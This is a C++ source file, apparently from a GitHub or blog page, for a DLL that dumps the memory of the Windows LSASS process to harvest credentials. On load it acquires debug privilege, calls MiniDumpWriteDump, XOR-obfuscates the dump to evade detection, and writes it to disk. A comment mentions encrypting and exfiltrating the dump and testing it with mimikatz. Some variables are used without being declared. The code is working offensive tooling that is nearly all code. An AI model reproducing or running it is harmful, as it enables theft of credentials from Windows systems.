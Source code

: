``` cpp
void DumpLsass()
{
	DWORD lsassPID = GetLsassPid();
	DWORD bytesWritten = 0;
	
	// Set up minidump callback
	MINIDUMP_CALLBACK_INFORMATION callbackInfo;
	ZeroMemory(&callbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
	callbackInfo.CallbackRoutine = &minidumpCallback;
	callbackInfo.CallbackParam = NULL;

	GetDebugPrivilege();

	HANDLE lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
	// Dump lsass
	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, NULL, MiniDumpWithFullMemory, NULL, NULL, &callbackInfo);

	for (DWORD i = 0; i < bytesRead; i++)
	{
		*((BYTE*)dumpBuffer + i) ^= 0x32;
	}

	// At this point, we have the lsass dump in memory at location dumpBuffer - we can do whatever we want with that buffer, i.e encrypt & exfiltrate
	HANDLE outFile = CreateFile(L"c:\\temp\\temp.bin", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

	// For testing purposes, let's write lsass dump to disk from our own dumpBuffer and check if mimikatz can work it
	WriteFile(outFile, dumpBuffer, bytesRead, &bytesWritten, NULL);
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
		DumpLsass();
		break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
